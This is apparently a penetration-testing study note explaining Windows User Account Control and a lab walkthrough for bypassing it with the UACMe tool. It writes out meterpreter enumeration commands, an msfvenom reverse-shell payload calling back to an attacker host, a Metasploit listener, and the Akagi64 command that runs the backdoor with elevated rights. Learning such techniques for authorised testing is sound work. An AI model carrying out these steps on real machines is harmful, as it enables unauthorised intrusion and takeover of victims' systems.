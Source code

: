 # Privilege Escalation: Bypassing UAC
> Bypassing UAC With UACMe

## Contents
- [Intro](#intro)
  - [User Account Control (UAC)](#user-account-control-uac)
  - [The Problem: UAC Pop-Up](#the-problem-uac-pop-up)
  - [Bypassing UAC](#bypassing-uac)
  - [Tool: UACMe](#tool-uacme)
- [Practical: UACMe](#practical-uacme)
  - [Scenario](#scenario)
  - [UACMe - Explanation](#uacme---explanation)
  - [MSFVenom Payload](#msfvenom-payload)
  - [Set up a Listener](#set-up-a-listener)
  - [Meterpreter: On the Target](#meterpreter-on-the-target)
  - [Bypass UAC & Execute Backdoor](#bypass-uac--execute-backdoor)

## Intro

### User Account Control (UAC)
- UAC is a Windows security feature introduced in Windows Vista that is used to prevent unauthorized changes from being made to the operating system.
- UAC is used to ensure that changes to the operating system require approval from the administrator or a user account that is part of the local administrators group.
- A non-privileged user attempting to execute a program with elevated privileges will be prompted with the UAC credential prompt (admiun password), whereas a privileged user will be prompted with a consent prompt (image below).
- Attacks can bypass UAC in order to execute malicious executables with elevated privileges.

### The Problem: UAC Pop-Up
- The problem you run into is when you're running a remote shell or a meterpreter session on a target machine, and you try to run a program with elevated privileges.
- A dialog box will pop up on the target system system, but b/c you are on the command line, you won't see and won't have any way to acknowledge it.
- Therefore you need a way to bypass that.

### Bypassing UAC
- In order to successfully bypass UAC we will need to have access to a user account that is a part of the local administrators group on the Windows target system.
- UAC allows a program to be executed with administrative privileges, consequently prompting the user for confirmation.
- UAC has various integrity levels ranging from low to high. If the UAC protection level is set below high, Windows programs can be executed with elevated privileges without prompting for user confirmation.
- There are multiple tools and techniques that can be used to bypass UAC, however the tool and technique used will depend on the version of Windows running on the target system.

### Tool: [UACMe](https://github.com/hfiref0x/UACME)
> Bypassing UAC With UACMe. Look over the README.md documentation.
- UACMe is an open-source, robust privilege escalation tool developed by @hfire0x. It can be used to bypass Windows UAC by leveraging various techniques.
- The UACMe GitHub repo contains a very well documented list of methods that can be used to bypass UAC on muiltiple versions of Windows ranging from Windows 7 to Window 11.
- It allows attackers to execute malicious payloads on a Windows target with admin/elevated privileges by abusing the inbuilt Windows AutoElevate tool.
- The UACMe GitHub repo has more than 60 exploits that can be used to bypass UAC depending on the version of Windows running on the target.
- NOTE: When selecting a Key, you need to find one that shows "unfixed" in the version of Windows your target machine is running.

## Practical: UACMe

### Scenario
- Unprivileged meterpreter session from system exploit via MSF.
- You get a shell on the system, you enumerate, and try to change the administrator password:
```
sysinfo
# This gives you O/S info (very important)
# Meterpreter: x86/windows (32-bit)

pgrep explorer
# This searches for the explorer process number
# Note the number (process ID for the explorer.exe process)

migrate [pgrep number]
# This should give you a 64-bit meterpreter session

sysinfo
# Meterpreter: x64/windows; good to go

getuid
#You are logged on as "admin" (NOT "administrator"--different). Need priv esc.

getprivs
# Shows you the privileges assigned to the current user
# Indicates an "unprivileged" (non-administrator) account

shell
# Opens a shell session with the current user's creds
```
- In the shell:
```
> net user
  # Shows two accounts: admin and administrator (plus Guest)

> net localgroup administrators
  # Shows admin is part of the administrators group
  # This means that this user can execute with administrator privileges (BUT via UAC)

> net user admin password123
  # Just an example: try to set a new password for the admin account
  # Returns: "System error 5 has occurred. Access is denied."
  # That's UAC blocking the elevated priv. command
```

### UACMe - Explanation 

#### [Description](https://github.com/hfiref0x/UACME#uacme)
- Defeating Windows User Account Control by abusing built-in Windows AutoElevate backdoor.

#### [Requirements](https://github.com/hfiref0x/UACME#system-requirements)
- x86-32/x64 Windows 7/8/8.1/10/11 (client, some methods however works on server version too).
- Admin account (account/user in the Administrators Group) with UAC set on default settings required.

#### [Usage](https://github.com/hfiref0x/UACME#usage)
- 32-Bit: `akagi32 [Key] [Param]`
- `64-Bit: akagi64 [Key] [Param]`
- The **_Key_** value can be obtained from the "Keys (click to expand/collapse)" just below the usage header.
- The **_Param_** value is an optional command (executable file name including full path) to run.
  - This second parameter can be empty
  - In this case the program will execute elevated cmd.exe from system32 folder.
- We are going to be using Key 23 (works best in this scenario).
  - `23. Author: Leo Davidson derivative`
  - Type: Dll Hijack
  - Method: IFileOperation
  - Target(s): \system32\pkgmgr.exe
  - Component(s): DismCore.dll
  - Implementation: ucmDismMethod
  - Works from: Windows 7 (7600)
  - Fixed in: unfixed
  - Code status: added in v2.5.1
- Run examples:
```
akagi32.exe 23
akagi64.exe 61
akagi32 23 c:\windows\system32\calc.exe
akagi64 61 c:\windows\system32\charmap.exe
```

**Note:** In real life you'll need to clone the repo and compile your own binaries ([see instructions](https://github.com/hfiref0x/UACME/tree/master#build) on the GitHub).

### MSFVenom Payload
- You need to create a payload with MSFVenom and then transfer that to the target system.
```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=[local ip] LPORT=1234 -f exe > backdoor.exe
```

### Set up a Listener
- You can use the MetaSploit handler:
```
> use multihandler
> set payload windows/meterpreter/reverse_tcp
> set LHOST [local ip]
> set LPORT 1234
> run
```

### Meterpreter: On the Target
- Go back into your meterpreter session and upload the UACMe binary and your backdoor.exe file.
```
> cd C:\\
> mkdir Temp
> cd Temp
> upload backdoor.exe
> upload tools/UACME/Akagi64.exe
> dir                             # should see both of those files
```

#### Problem
- If you tried to execute backdoor.exe to get your reverse shell, you could not because UAC would block it (confirmation pop-up).
- You need to BYPASS UAC FIRST, and that's what Akagi64.exe (with key 23) is for...

### Bypass UAC & Execute Backdoor
- Get a shell on the target via your meterpreter session
```
> .\Akagi64.exe 23 C:\\Temp\backdoor.exe
```
- This should bypass UAC and give you the reverse shell on your listener (with administrator privs).
